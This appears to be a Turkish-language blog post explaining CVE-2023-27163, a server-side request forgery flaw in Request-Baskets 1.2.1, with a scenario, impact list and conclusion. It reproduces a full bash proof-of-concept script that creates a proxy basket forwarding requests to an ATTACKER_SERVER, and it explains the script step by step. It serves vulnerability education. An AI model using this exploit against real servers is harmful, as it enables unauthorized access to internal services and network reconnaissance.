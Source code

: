 ```yaml
---
{"dg-publish":true,"permalink":"/baglantilar/mediium-request-baskets-tuerkce/"}
---
```


# Request-Baskets 1.2.1 Server-Side Request Forgery (CVE-2023–27163)

![Pasted image 20250111000851.png](/img/user/resimler/Pasted%20image%2020250111000851.png)

1- **Request-Baskets nedir?**  
[Request-Baskets](https://rbaskets.in/web), rastgele HTTP **request**'lerini yakalamak ve bunları bir **RESTful API** veya basit bir web **user interface** aracılığıyla incelemeyi kolaylaştırmak için tasarlanmış bir web servisidir.

Bu servis, **RequestHub** projesinin konseptlerinden ve uygulama tasarım prensiplerinden esinlenmiştir ve daha önce **RequestBin** servisi tarafından sağlanan işlevselliği yeniden oluşturur.

**2- Request-Baskets Üzerinde SSRF (CVE-2023–27163)**  
CVE-2023–27163, Request-Baskets içinde tespit edilen kritik bir **Server-Side Request Forgery (SSRF)** zafiyetidir ve 1.2.1 sürümü dahil tüm versiyonları etkiler. Bu zafiyet, kötü niyetli aktörlerin /api/baskets/{name} bileşenini dikkatle hazırlanmış **API request**'leri aracılığıyla istismar ederek yetkisiz ağ kaynaklarına ve hassas bilgilere erişim sağlamasına olanak tanır.

**3- Nasıl Çalışır?**  
Daha önce belirtildiği gibi, Request-Baskets belirli **endpoint**'lere (baskets olarak bilinir) yönlendirilen gelen HTTP **request**'leri toplamak ve kaydetmek için tasarlanmış bir **web application** olarak çalışır. Bu baskets'leri oluştururken kullanıcılar, bu **request**'lerin iletileceği alternatif **server**'ları belirleme esnekliğine sahiptir. Kritik sorun, kullanıcıların yanlışlıkla bir ağ ortamında genellikle erişim kısıtlaması bulunan servisleri belirtebilmesinde yatar.

Örneğin, bir senaryoda, sunucunun 55555 portunda Request-Baskets'i barındırdığını ve aynı zamanda 8000 portunda bir Flask **web server** çalıştırdığını düşünelim. Ancak Flask **server**, yalnızca **localhost** ile etkileşimde bulunacak şekilde yapılandırılmıştır. Bu contexde, bir saldırgan SSRF zafiyetini exploit ederek [http://localhost:8000](http://localhost:8000) adresine **request**'leri yönlendiren bir basket oluşturabilir. Böylece önceki ağ kısıtlamalarını aşarak yalnızca local erişime açık olması gereken Flask **web server**'a erişim elde edebilir.


4- Exploit script

Senaryo[ vulners web](https://vulners.com/packetstorm/PACKETSTORM:174128) sitesinden alınmıştır

```
# Exploit Title: Request-Baskets v1.2.1 - Server-side request forgery (SSRF)  
# Exploit Author: Iyaad Luqman K (init_6)  
# Application: Request-Baskets v1.2.1  
# Tested on: Ubuntu 22.04  
# CVE: CVE-2023-27163  
  
  
# PoC  
#!/bin/bash  
  
  
if [ "$#" -lt 2 ] || [ "$1" = "-h" ] || [ "$1" = "--help" ]; then  
help="Usage: exploit.sh <URL> <TARGET>\n\n";  
help+="Arguments:\n" \  
help+=" URL main path (/) of the server (eg. http://127.0.0.1:5000/)\n";  
help+=" TARGET";  
  
echo -e "$help";  
exit 1;  
fi  
  
URL=$1  
ATTACKER_SERVER=$2  
  
if [ "${URL: -1}" != "/" ]; then  
URL="$URL/";  
fi;  
  
BASKET_NAME=$(LC_ALL=C tr -dc 'a-z' </dev/urandom | head -c "6");  
  
API_URL="$URL""api/baskets/$BASKET_NAME";  
  
PAYLOAD="{\"forward_url\": \"$ATTACKER_SERVER\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}";  
  
echo "> Creating the \"$BASKET_NAME\" proxy basket...";  
  
if ! response=$(curl -s -X POST -H 'Content-Type: application/json' -d "$PAYLOAD" "$API_URL"); then  
echo "> FATAL: Could not properly request $API_URL. Is the server online?";  
exit 1;  
fi;  
  
BASKET_URL="$URL$BASKET_NAME";  
  
echo "> Basket created!";  
echo "> Accessing $BASKET_URL now makes the server request to $ATTACKER_SERVER.";  
  
if ! jq --help 1>/dev/null; then  
echo "> Response body (Authorization): $response";  
else  
echo "> Authorization: $(echo "$response" | jq -r ".token")";  
fi;  
  
exit 0;
```


**Açıklama**  
Kodun işlevlerinin bir dökümü:

1. **Argument Validation**:  
    Script, kendisine geçirilen komut satırı argümanlarının sayısını kontrol eder. Argüman sayısı 2’den azsa veya ilk argüman “-h” ya da “--help” ise, kullanım bilgilerini görüntüler ve çıkış yapar.
    
2. **Parsing Command-Line Arguments**:  
    İlk argümanı ($1) **URL** değişkenine, ikinci argümanı ($2) **ATTACKER_SERVER** değişkenine atar. Ayrıca, **URL**'nin sonunda bir **slash** ("/") olduğundan emin olarak geçerli URL'ler oluşturur.
    
3. **Generating a Random BASKET_NAME**:  
    Küçük harflerden rastgele bir dize oluşturur ve bunu **BASKET_NAME** değişkenine atar.
    
4. **Constructing API_URL and PAYLOAD**:  
    **API_URL**’yi oluşturmak için **BASKET_NAME**'i **URL**'ye ekler. Daha sonra, **ATTACKER_SERVER**'ı **forward_url** olarak içeren JSON **payload**'unu (PAYLOAD) oluşturur.
    
5. **Creating a Proxy Basket**:  
    Script, **curl** komutunu kullanarak **JSON payload**'u veri olarak **API_URL**'ye bir **HTTP POST request** gönderir. Bu, hedef sunucuda **proxy basket** oluşturur ve gelen istekleri **ATTACKER_SERVER**'a iletir.
    
6. **Handling the Response**:  
    **curl** komutunun başarılı olup olmadığını kontrol eder. Eğer başarısızsa, bir hata mesajı görüntüler ve çıkış yapar. Aksi takdirde, bir başarı mesajı ve oluşturulan **proxy basket** hakkında bilgi görüntüler.
    
7. **Using jq for JSON Parsing**:  
    Eğer **jq** aracı mevcutsa, yanıt JSON’undan "Authorization" **token**'ını çıkarmayı dener. **jq** mevcut değilse, tüm yanıt gövdesini görüntüler.
    
8. **Exit**:  
    Script, 0 durum koduyla başarıyla çıkış yapar.
    

Bu script, hedef sunucuda bir **proxy basket** oluşturur ve bu basket, istekleri saldırganın script'i **ATTACKER_SERVER**'a iletir. Saldırgan, bu durumu kullanarak hedef sunucunun rastgele hedeflere istek göndermesini sağlayabilir ve bu da hassas internal kaynakların açığa çıkmasına veya yetkisiz işlemler gerçekleştirilmesine neden olabilir.

**5- Etki**:

a- **Information Disclosure and Exfiltration**:  
Request-Baskets'deki **SSRF** zafiyeti, bilgi ifşası ve veri sızdırma riskini ciddi şekilde artırır. İlk başta yalnızca kimlik doğrulaması gerektirmeyen görsellerin yetkisiz bir şekilde ele geçirilmesi endişe kaynağı olsa da, bu durum görsellerin ötesine geçer. Hedef sunucunun local ağında **HTTP request** ile erişilebilen herhangi bir kaynak, bu exploit kullanılarak remote elde edilebilir.

b- **Unauthenticated Access to Internal Network HTTP Servers**:  
SSRF saldırısının istismarı, Request-Baskets sunucusuyla aynı ağda bağlı herhangi bir **HTTP server**'a kimlik doğrulaması olmadan erişim sağlar. Bu, yalnızca iç erişime açık olan Nginx gibi sunucular, dahili **RESTful API**'ler (NoSQL ve GraphQL veri tabanları gibi) için de geçerlidir. Önemli bir nokta, bu erişimin yalnızca local makineyle sınırlı olmamasıdır; local ağda bağlı tüm makineleri kapsar.

c- **Port and IP Scanning and Enumeration**:  
**SSRF** zafiyeti, hem internal hem de external **HTTP server**'lar için talep üzerine **port scan** yapma imkanı sunar. Ayrıca, local ağdaki açık **HTTP port**'lara sahip tüm makinelerin sayımını yapmayı sağlar. Bu yetenek, kötü niyetli aktörlere keşif yapma imkanı tanır ve ağın tüm mimarisini ve açık zafiyetlerini ortaya çıkarabilir.

**6- Sonuç**  
Bu zafiyet, yetkisiz erişimi önlemek ve web servislerinin güvenli bir şekilde çalışmasını sağlamak için doğru güvenlik kontrollerinin ve doğrulama mekanizmalarının önemini vurgular. Request-Baskets içinde keşfedilen gibi **SSRF** zafiyetlerinin inceliklerini anlamak, hem geliştiriciler hem de güvenlik profesyonelleri için kritiktir, çünkü bu durum bu tür risklerin etkili bir şekilde belirlenmesini ve azaltılmasını sağlar.




